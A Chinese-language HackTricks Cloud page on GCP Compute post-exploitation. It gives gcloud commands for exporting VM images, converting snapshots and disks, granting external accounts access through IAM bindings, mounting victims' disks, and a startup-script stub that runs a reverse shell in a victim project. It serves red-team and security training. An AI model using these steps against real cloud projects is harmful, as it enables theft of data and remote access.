 # GCP - Compute Post Exploitation

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Compute

有关 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 本地导出和检查镜像

这将允许攻击者**访问已存在镜像中的数据**或**创建正在运行的虚拟机的新镜像**，并在不访问正在运行的虚拟机的情况下访问其数据。

可以将虚拟机镜像导出到一个存储桶，然后下载并使用以下命令在本地挂载它：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶拥有权限，并且肯定需要对 **cloudbuild** 拥有权限，因为这是将被请求执行导出的 **服务**。\
此外，为了使其正常工作，codebuild SA 和 compute SA 需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而 SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 本地导出和检查快照和磁盘

无法直接导出快照和磁盘，但可以 **将快照转换为磁盘，将磁盘转换为映像**，并按照 **前一部分**，将该映像导出以便在本地检查。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 检查创建虚拟机的镜像

为了访问**存储在镜像中的数据**或**运行中的虚拟机**，攻击者**创建了一个镜像**，可以授予外部账户对该镜像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从它创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法通过镜像授予外部帐户访问权限，您可以在受害者的项目中使用该镜像启动一个虚拟机，并**使元数据执行反向 shell**以访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，将磁盘转换为映像，并遵循之前的步骤。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘** 附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
挂载磁盘到虚拟机内：

1.  **SSH 进入虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以找到它作为 `/dev/sdb`、`/dev/sdc` 等。
3. **格式化并挂载磁盘**（如果是新磁盘或原始磁盘）：
*   创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果您**无法将快照或磁盘的访问权限授予外部项目**，您可能需要**在与快照/磁盘相同项目中的实例内执行这些操作**。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
